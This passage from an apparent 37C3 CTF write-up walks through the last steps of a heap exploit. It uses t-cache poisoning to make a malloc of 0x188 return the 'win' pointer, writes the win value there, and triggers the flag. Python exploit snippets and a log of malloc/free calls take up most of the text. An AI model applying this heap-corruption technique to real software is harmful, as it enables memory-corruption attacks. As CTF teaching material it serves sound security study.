 And if you look at the `0x190` chunk, you will notice that the second `pointer` in the `array` contains the `win` address!!


#### Writing to win pointer

To write to the `win` pointer from here, simply allocate `0x188` twice.
Once to use up the current `t-cache entry`, and once to use the "upcoming" `t-cache entry`, which is the `win` ptr!

Here, we write the win condition, `0x37c3c7f` (37C3 CTF) to the address:
```python
########## Malloc twice to allocate the arbitrary pointer!
malloc(0x188, b'Next alloc is winz!')

# Set win-condition
malloc(0x188, p64(0x37C3C7F))
```

Then simply call the `dinner` option, and get the flag:
```python
###############
# $$$ WIN $$$ #
###############
p.sendline(b'3')
```

Running the exploit script will look like the following:
```
[0]malloc(0x88)
[1]malloc(0x88)
[2]malloc(0x88)
[3]malloc(0x88)
[4]malloc(0x88)
[5]malloc(0x88)
[6]malloc(0x88)
[7]malloc(0x1a8)
[8]malloc(0x1a8)
[9]malloc(0x1a8)
[10]malloc(0x1a8)
[11]malloc(0x1a8)
[12]malloc(0x1a8)
[13]malloc(0x1a8)
[14]malloc(0x3d8)
free(14)
[15]malloc(0x3e8)
free(15)
[16]malloc(0x18)
[17]malloc(0x88)
[18]malloc(0x88)
[19]malloc(0x88)
[20]malloc(0x88)
[21]malloc(0x18)
[22]malloc(0x88)
[23]malloc(0x88)
[24]malloc(0x88)
[25]malloc(0x88)
[26]malloc(0x18)
free(0)
free(1)
free(2)
free(3)
free(4)
free(5)
free(6)
free(17)
free(18)
```